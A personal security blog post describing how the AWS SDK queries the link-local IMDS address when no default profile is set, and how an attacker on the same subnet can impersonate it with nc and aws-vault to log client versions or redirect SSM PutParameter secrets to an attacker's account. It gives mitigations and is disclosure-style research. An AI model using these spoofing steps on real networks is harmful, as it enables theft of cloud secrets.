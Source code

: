 ```yaml
---
layout: post
title: Coercing data from the AWS SDK client on the local network
---
```


{{ page.title }}
================

<p class="meta">17 October 2020 - Somewhere</p>
A bit ago I noticed a SYN open connection from what was most likely the AWS SDK trying to connect to the IMDS service. I must have been a bit bored at the time and decided to look into how this could be abused in various scenarios. After some messing around I came up with a fairly simple PoC that allows an attacker on the local network under specific conditions to gain plain text secrets uploaded using SSM parameter store. My take away from looking into this further is if you use multiple named profiles in your config/credentials file it's a good idea to either put dummy creds in the default profile and/or make sure AWS_EC2_METADATA_DISABLED=true is set in your shell environment.

This issue ended up affecting me by default since I've gotten in the habit of never setting a default profile to avoid accidentally connecting to the wrong account. It seems I'm not the only person that does this either, found a few people suggesting the same thing.

(FIXME: welp.. I guess I lost those links and don't feel like looking again right now)

In any-case the AWS SDK makes look up's to the IMDS server under certain conditions, mainly when there is no profile specified for the client to use and the default named profile does not exist in the local configuration. This tends to result in a long delay before the API call fails, being unable to reach what would typically be the IMDS server. What is actually happening here depends on your local routing configuration, specifically whether 169.254.0.0/16 is designated as a link local route.

For example on my MacBook Pro running 10.15 I have the following in my route table.


```
169.254            link#6             UCS            en0      !
224.0.0/4          link#6             UmCS           en0      !
224.0.0.251        XX:XX:XX:XX:XX:XX  UHmLWI         en0       
255.255.255.255/32 link#6             UCS            en0
```

When running `aws s3 ls` with no default profile set we can see that the OS attempts to look for the IMDS server on the local network.


```
% tcpdump -i any host 169.254.169.254
tcpdump: data link type PKTAP
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on any, link-type PKTAP (Apple DLT_PKTAP), capture size 262144 bytes
23:29:36.631710 ARP, Request who-has 169.254.169.254 tell 10.0.1.105, length 28
23:29:37.635852 ARP, Request who-has 169.254.169.254 tell 10.0.1.105, length 28
```


Eventually the AWS SDK will timeout and we'll get this familiar error.

```
Unable to locate credentials. You can configure credentials by running "aws configure".
```

Thinking about this from an attacker's viewpoint who already has access to the local subnet we can do a few things by simply claiming that IP as our own. The simplest being scraping the AWS SDK version of user's on the local network. Worth noting the error on the victims side remains the same as above.


```
(h@x0r) % ifconfig lo0 add 169.254.169.254
(h@x0r) % nc -lk 169.254.169.254 80

## Meanwhile we wait for someone to accidentally trigger an IMDS lookup.

PUT /latest/api/token HTTP/1.1
Host: 169.254.169.254
Accept-Encoding: identity
x-aws-ec2-metadata-token-ttl-seconds: 21600
User-Agent: aws-cli/2.0.50 Python/3.8.5 Darwin/19.6.0 source/x86_64
Content-Length: 0

GET /latest/meta-data/iam/security-credentials/ HTTP/1.1
Host: 169.254.169.254
Accept-Encoding: identity
User-Agent: aws-cli/2.0.50 Python/3.8.5 Darwin/19.6.0 source/x86_64
```

Taking this a step further we can actually serve the victim another set of credentials of our choosing which will cause the SDK to connect to an account we control. For this to be useful to the attacker the API called must use relative naming schemes for parameters (i.e. no ARN's) as well as upload sensitive info. One that fit's this description is the SSM parameter PutParameter call.


Testing this out is fairly simple. Here we're doing the same thing as before but using aws-vault's server feature to feed back credentials to the victim. Typically aws-vault will only bind on localhost but we can force it to skip this step by adding the 169.254.169.254 IP beforehand.


```
(h@x0r) % ifconfig lo0 add 169.254.169.254
(h@x0r) % aws-vault exec -s attackers-account
```


If the victim run's STS GetCallerIdentity and trigger's an IMDS lookup they will see that they are connecting to the attacker's account. Uploading a secret using SSM PutParameter at this point will end up pushing it to the wrong account, allowing it to be viewed by the attacker in plaintext.

This would be a not so great situation but to reiterate, getting to this point requires both the IMDS lookup to be triggered when it shouldn't have, as well as the victim running an API call that is susceptible to this. Unless you are able to determine through some other means what API call a client is going to make and when they will most likely notice something is not right, the tool they are using will fail or behave strangely.

Personally though I think this could use more eye's looking into how feasible this attack might be. For example it may be worth looking into what would happen if ARN's are constructed from the STS GetCallerIdentity call, something that is fairly common when running terraform.

Alternatively for OS's that send 169.254.169.254 to the default route the same situation comes up further upstream, allowing an attacker in a privileged position on the network to do the same thing across multiple subnets.

If you have any thought’s on how this might more effectively be abused I encourage you to reach out to either me or AWS security.

